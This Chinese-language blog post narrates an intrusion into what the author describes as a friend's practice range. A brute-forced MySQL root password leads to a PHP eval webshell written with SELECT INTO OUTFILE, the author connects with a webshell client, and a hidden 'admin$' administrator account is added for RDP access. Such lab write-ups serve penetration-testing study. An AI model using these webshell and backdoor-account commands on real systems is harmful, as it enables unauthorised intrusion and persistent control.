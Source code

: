 ```yaml
---
layout:     post
title:      实战之mysql从弱口令到提权
subtitle:   流程思路要清晰
date:       2018-11-06
author:     蓝胖
header-img: img/post-bg-2018-11-06.jpg
catalog: true
tags:
    - mysql
    - 提权



---
```


>“回头想想，有时候感到后怕。当自己的认知天花板太低的时候，明明已经错的一塌糊涂，却还在沾沾自喜”



# 弱口令->Shell
 > 朋友在韩国搭建了一套靶场环境让我试试。所以有了如下记录。直接Nmap扫端口，发现开了3306。爆破出数据库弱口令 root/666666

接着看看系统版本 `select @@version_compile_os, @@version_compile_machine;`
[![ioblut.png](https://s1.ax1x.com/2018/11/06/ioblut.png)](https://imgchr.com/i/ioblut)
看数据库版本 `select @@version;`
[![iobu3d.png](https://s1.ax1x.com/2018/11/06/iobu3d.png)](https://imgchr.com/i/iobu3d)
发现是MariaDB,MariaDB百度了下意思就是mysql的进阶产品，未来有可能替代mysql，而且兼容大部分mysql。知道这些就够了，先搞。
继续看下其他路径`SHOW VARIABLES WHERE Variable_Name LIKE "%dir";`
[![iobKgA.png](https://s1.ax1x.com/2018/11/06/iobKgA.png)](https://imgchr.com/i/iobKgA)

现在知道了mysql的服务器以及版本信息，下面要插入一句话。但是要知道插入的路径。直接在访问IP，发现是个网站。有两个思路，一个是注入报错爆路径，一个是查看`PHPinfo`。用`wa00f`测了一下没有waf，那就跑个小字典看看有没有想要的信息。发现有PHPinfo，直接访问，找到网站真实路径`C:/xampp/htdocs`
[![iobZND.png](https://s1.ax1x.com/2018/11/06/iobZND.png)](https://imgchr.com/i/iobZND)
[![iobVAO.png](https://s1.ax1x.com/2018/11/06/iobVAO.png)](https://imgchr.com/i/iobVAO)

有了mysql写入权限+路径，就可以创建表写入一句话，或者直接写入一句话，我选择后者，因为省事，哈哈
`SELECT '<?php eval($_POST[123]) ?>' INTO OUTFILE "C://xampp//htdocs//12345.php";`
[![iobn9H.md.png](https://s1.ax1x.com/2018/11/06/iobn9H.md.png)](https://imgchr.com/i/iobn9H)
写入成功。上C刀
[![iobGE8.md.png](https://s1.ax1x.com/2018/11/06/iobGE8.md.png)](https://imgchr.com/i/iobGE8)



# shell->提权
 > `whoami` 一下是 `nt authoritysystem` 权限，百度了下也就是管理员权限。
[![iob3Hf.png](https://s1.ax1x.com/2018/11/06/iob3Hf.png)](https://imgchr.com/i/iob3Hf)

  Mysql还可以用mof、udf、sqlmap、启动项提权等方式，但先试试最基本提权。创建一个普通用户 `net user admin$ admin999 /add`  添加到管理员 `net localgroup administrators admin$ /add ` 确认在不在管理员组里 ` net localgroup administrators `
[![ioquIU.png](https://s1.ax1x.com/2018/11/06/ioquIU.png)](https://imgchr.com/i/ioquIU)
  看下端口开放信息 `netstat -an `，发现开了3389，不用自己开了，直接远程连接
 [![iobMjI.md.png](https://s1.ax1x.com/2018/11/06/iobMjI.md.png)](https://imgchr.com/i/iobMjI)







